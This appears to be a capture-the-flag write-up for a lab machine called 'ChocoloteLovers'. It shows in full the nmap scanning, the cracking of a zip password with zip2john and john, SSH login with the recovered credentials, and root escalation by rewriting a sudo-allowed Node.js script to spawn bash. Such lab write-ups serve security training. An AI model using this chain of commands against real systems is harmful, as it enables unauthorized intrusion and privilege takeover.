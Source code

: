 # ChocoloteLovers


## Port Enumeration

We started our scan using the Nmap tool during the discovery phase. We found the following open ports:

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2  
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
22/tcp open  ssh     syn-ack ttl 64

```

## Examining ports

More precise scan of the FTP port:

```ruby
    nmap -p21 -T4 --min-rate 1000 --script vuln,ftp-anon,ftp-bounce,ftp-syst 172.17.0.2
```
![alt text](Imagenes/Node_1.png)

We see what appears the file called secretitopicaron.zip.

Similarly, I scanned the SSH port, but didn't find anything important

## Analyzing "secretitopicaron.Zip"

First we need to extract the hash from the .zip file. we use `zip2jonh` tool:

```ruby
zip2john secretitopicaron.zip > hash.txt
```

Once we have successfully extracted the file, our next step is to attempt to crack the password hash contained in the hash.txt file.

```ruby
john --wordlist=rockyou.txt hash.txt
```

```ruby
secretitopicaron.zip/password.txt:password1:password.txt:secretitopicaron.zip::secretitopicaron.zip
1 password hash cracked, 0 left
```

Finally, we obtain the password, `password1` . Now we can try extract secretetitopicaron.zip.
if we extract the file, we obtain a password file.

```ruby
mario:laKontraseñAmasmalotaHdelbarrioH
```

These are possible credentials for the SSH service.


## Intrusion

If we use the new credentials, we can access the SSH service.

![alt text](Imagenes/Node_3.png)


## Escalation privilege

For privilege escalation, we will use the following command:

```ruby
sudo -l
``
We see the commands we can execute as root or other users using sudo: 

```ruby
$ sudo -l
Matching Defaults entries for mario on 0730eda13522:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on 0730eda13522:
    (ALL) NOPASSWD: /usr/bin/node /home/mario/script.js

```

We can see that we can execute the script in /home/mario, so we can try to edit this file to spawn a shell with root privileges.


Therefore, we need to edit the script with the following code:

```ruby
const { execSync } = require('child_process');
execSync('/bin/bash', {stdio: 'inherit'});

```

Now, we are able to spawn a shell with root privileges if we execute the following:

```ruby
sudo /usr/bin/node /home/mario/script.js
```
![alt text](Imagenes/Node_2.png)
